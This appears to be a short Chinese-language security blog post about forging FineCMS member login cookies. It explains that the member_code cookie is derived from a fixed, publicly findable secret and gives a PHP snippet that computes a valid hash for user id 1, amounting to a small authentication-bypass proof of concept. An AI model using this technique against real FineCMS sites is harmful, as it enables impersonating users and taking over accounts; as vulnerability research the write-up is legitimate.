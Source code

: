 ```yaml
---
layout: post
title:  "Finecms Cookie Forged"
date:   2017-03-13 15:04:55
comments: true
catego
---
```

##Finecms Cookie伪造



```text
/controllers/member/LoginController.php
```
看上去很容易被伪造只要知道 SITE_MEMBER_COOKIE 就行了

cookie表前缀+字符串 ，我通过github搜索发现字符串并不是随机生成的而是固定的值
```javascript

  set_cookie('member_id', $member['id'], $time);

    set_cookie('member_code', substr(md5(SITE_MEMBER_COOKIE . $member['id']), 5, 20), $time);
```
构造cookiehash
```javascript
<?php
$hash = substr(md5("2967e68d382902a"."1"), 5, 20);

echo $hash;
?>

```

